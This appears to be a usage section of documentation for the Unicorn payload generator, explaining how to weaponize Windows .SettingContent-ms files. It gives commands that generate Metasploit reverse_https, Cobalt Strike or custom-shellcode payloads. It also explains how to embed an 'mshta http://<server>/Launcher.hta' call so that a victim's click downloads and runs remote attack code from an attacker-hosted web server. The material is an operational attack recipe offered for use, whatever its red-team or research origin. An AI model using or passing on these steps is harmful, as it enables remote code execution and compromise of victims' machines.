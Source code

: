 There are multiple methods supported with this attack vector. Since there is a limited character size
with this attack, the method for deployment is an HTA. 

For a detailed understanding on weaponizing this attack visit:

https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

The steps you'll need to do to complete this attack is generate your .SettingContent-ms file from
either a standalone or hta. The HTA method supports Metasploit, Cobalt Strike, and direct
shellcode attacks.

The four methods below on usage: 

HTA SettingContent-ms Metasploit: `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms`  
HTA Example SettingContent-ms: `python unicorn.py <cobalt_strike_file.cs cs ms`  
HTA Example SettingContent-ms: `python unicorn.py <patth_to_shellcode.txt>: shellcode ms`  
Generate .SettingContent-ms: `python unicorn.py ms`

The first is a Metasploit payload, the second a Cobalt Strike, the third your own shellcode, and the fourth
just a blank .SettingContent-ms file. 

When everything is generated, it will export a file called Standalone_NoASR.SettingContent-ms either in
the default root Unicorn directory (if using the standalone file generation) or under the hta_attack/
folder. You will need to edit the Standalone_NoASR.SettingContent-ms file and replace:

REPLACECOOLSTUFFHERE

With:

mshta http://<apache_server_ip_or_dns_name/Launcher.hta.

Then move the contents of the hta_attack to /var/www/html.

Once the victim either clicks the .SettingContent-ms file, mshta will be called on the victim machine
then download the Unicorn HTA file which has the code execution capabilites. 

Special thanks and kudos to Matt Nelson for the awesome research

Also check out: https://www.trustedsec.com/2018/06/weaponizing-settingcontent/

Usage: 

    python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
    python unicorn.py <cobalt_strike_file.cs cs ms
    python unicorn.py <patth_to_shellcode.txt>: shellcode ms
    python unicorn.py ms

